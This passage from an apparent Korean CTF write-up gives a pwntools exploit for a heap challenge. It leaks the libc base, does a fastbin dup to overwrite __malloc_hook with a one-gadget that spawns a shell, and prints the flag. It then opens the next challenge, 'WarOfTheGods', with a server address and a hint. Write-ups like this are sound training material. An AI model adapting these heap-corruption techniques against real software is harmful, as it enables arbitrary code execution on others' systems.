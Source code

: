 ```python
	s.sendlineafter('idx: ',index)
	s.sendafter('data',data)
	s.sendlineafter('> ','6')

def free(alloc_type,index):
	s.sendlineafter('> ','1222')
	s.sendlineafter('> ',alloc_type)
	s.sendlineafter('index: ',index)


pause()

malloc(str(0x108),'A')
malloc(str(0x28),'A')
realloc(str(0x208),'1','0','B')
calloc(str(0x28),'A' * 0x28)
realloc(str(0x108),'2','0','B' * 8 * 6)

s.sendlineafter('> ','3')
s.recvuntil('B' * 8 * 6)
libc_base = u64(s.recv(6) + "\x00" * 2) - 0x3c4b78 // leak

log.info("LIBC_BASE : " + hex(libc_base))

malloc(str(0x68),'A')
malloc(str(0x68),'A')
free('1','2')
free('1','3')
free('1','2') // fastbin dup
malloc(str(0x68),p64(libc_base+l.symbols['__malloc_hook'] - 0x23))
malloc(str(0x68),'A')
malloc(str(0x68),'A')

oneshot = libc_base + 0xf1117
malloc(str(0x68),'A' * 0x13 + p64(oneshot))
s.interactive()
```

FLAG : FLAG is FLAG{S0lo_Att4cks_the_H3ap_during_Chr1s7mas}
<br><br><br>

## WarOfTheGods 991 (Pwn)
```
Can you win?
nc 222.110.147.52:5265
HINT1: fastbin dup into stack
Link
```

### Introduction
힌트가 fastbin dup into stack이길래 처음엔 그거로 해보려했는데 귀찮아질꺼 같아서 다른방법 찾다가 일반적인 fastbin dup로 풀었다. 그러니 정풀이는 아닌거같다.

